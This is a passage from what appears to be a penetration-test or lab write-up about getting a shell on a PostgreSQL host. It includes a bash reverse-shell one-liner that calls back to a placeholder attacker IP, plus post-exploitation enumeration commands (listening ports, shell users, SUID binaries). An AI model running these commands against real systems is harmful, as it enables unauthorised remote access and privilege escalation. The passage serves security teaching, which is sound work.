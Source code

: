 ![replace-me-14](img/replace-me-14.png)

The two images above confirm that we can 
1. use `wget` to transfer files from the attacker machine to the target, and
2. write to `/var/lib/postgresql/14/main`

#### reverse shell
Set up a listener on the attacker and use your favorite reverse shell to connect back.  Shown here is a variant of the bash one-liner.

```bash
os-shell> bash -c 'bash -i >& /dev/tcp/<attacker ip>/<port> 0>&1'
```


### Further enumeration
While we have a shell, do some light enumeration.  Look for other users on the box, other services, and SUID binaries.

```bash
 ss -ltp # show listening TCP ports and associated processes
 
 grep sh$ /etc/password # show all users with shell access on box
 
 find / -perm -4000 -type f -ls 2>/dev/null # list all SUID binaries

```

![05 - more ports](05%20-%20more%20ports.md)
We'll check these out later.
